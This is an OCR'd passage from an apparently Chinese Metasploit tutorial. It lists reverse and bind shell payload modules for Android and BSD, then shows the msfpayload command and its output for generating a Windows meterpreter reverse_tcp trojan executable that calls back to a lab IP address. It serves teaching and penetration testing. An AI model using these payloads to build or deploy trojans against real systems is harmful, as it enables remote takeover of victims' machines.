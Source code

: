 ```
    android/meterpreter/reverse_https                Run a meterpreter server on Android. Tunnel communication over HTTPS
    android/meterpreter/reverse_tcp                  Run a meterpreter server on Android. Connect back stager
    android/shell/reverse_http                       Spawn a piped command shell (sh). Tunnel communication over HTTP
    android/shell/reverse_https                      Spawn a piped command shell (sh). Tunnel communication over HTTPS
    android/shell/reverse_tcp                        Spawn a piped command shell (sh). Connect back stager
    bsd/sparc/shell_bind_tcp                         Listen for a connection and spawn a command shell
    bsd/sparc/shell_reverse_tcp                      Connect back to attacker and spawn a command shell
    bsd/x86/exec                                     Execute an arbitrary command
    bsd/x86/metsvc_bind_tcp                          Stub payload for interacting with a Meterpreter Service
    bsd/x86/metsvc_reverse_tcp                       Stub payload for interacting with a Meterpreter Service
    bsd/x86/shell/bind_ipv6_tcp                      Spawn a command shell (staged). Listen for a connection over IPv6
    bsd/x86/shell/bind_tcp                           Spawn a command shell (staged). Listen for a connection
    bsd/x86/shell/find_tag                           Spawn a command shell (staged). Use an established connection
    bsd/x86/shell/reverse_ipv6_tcp                   Spawn a command shell (staged). Connect back to the attacker over IPv6
    bsd/x86/shell/reverse_tcp                        Spawn a command shell (staged). Connect back to the attacker
    bsd/x86/shell_bind_tcp                           Listen for a connection and spawn a command shell
    bsd/x86/shell_bind_tcp_ipv6                      Listen for a connection and spawn a command shell over IPv6
    bsd/x86/shell_find_port                          Spawn a shell on an established connection
    bsd/x86/shell_find_tag                           Spawn a shell on an established connection (proxy/nat safe)
    bsd/x86/shell_reverse_tcp                        Connect back to attacker and spawn a command shell
    bsd/x86/shell_reverse_tcp_ipv6                   Connect back to attacker and spawn a command shell over IPv6
    ....
 
```

#### 4.2 利用msfpayload生成meterpreter反弹木马实验

1、下面我们利用msfpayload生成一个windows下运行的反弹meterpreter木马，命令为: 

```
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.116.128 LPORT=10086 X > Desktop/muma01.exe
light@kali:~# msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.116.128 LPORT=10086 X > Desktop/muma01.exe
Created by msfpayload (http://www.metasploit.com).
Payload: windows/meterpreter/reverse_tcp
 Length: 287
Options: {"LHOST"=>"192.168.116.128", "LPORT"=>"10086"}
```
